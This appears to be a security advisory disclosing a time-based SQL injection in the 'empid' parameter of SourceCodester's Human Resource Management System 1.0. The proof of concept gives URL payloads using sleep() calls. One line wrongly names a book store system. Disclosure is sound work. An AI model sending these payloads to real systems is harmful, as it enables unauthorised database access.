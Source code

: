 # Human Resource Management System 1.0 SQL Injection

Description: Vulnerability was found in SourceCodester Book Store Management System 1.0. A SQL Injection vulnerability in /hrm/employeeadd.php with `empid` handler.

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/employeeadd.php

Source code analysis:

The `empid` handler don't have input validation from user.

![](images/empid.png)

Proof of Concept:

Login as admin and go to `http://localhost/hrm/employeeadd.php`

Payload SQLi with sleep(1): /hrm/employeeadd.php?empid=1%27%20or%20sleep(1)%20--%20-

![](images/sqli-sleep-1.png)

Payload SQLi with sleep(10): /hrm/employeeadd.php?empid=1%27%20or%20sleep(10)%20--%20-

![](images/sqli-sleep-10.png)

Check payload at MySQL log:

![](images/mysql-log.png)

#### Discoverer(s)/Credits: NGO VAN TU (@leecybersec)